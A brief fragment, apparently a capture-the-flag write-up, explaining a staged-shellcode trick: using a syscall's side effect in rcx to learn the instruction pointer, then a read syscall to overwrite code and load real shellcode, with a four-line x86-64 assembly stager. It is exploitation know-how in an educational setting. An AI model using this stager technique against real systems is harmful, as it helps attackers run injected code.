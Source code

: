 ## idea
a bad syscall will set rip to rcx, so here is steps:  

- gets rip 
- use read syscall to overwrite opcode
- send real shellcode

a prime code example  like this

	start:
	    syscall
	    dec edx
	    mov esi,ecx
	    jmp start
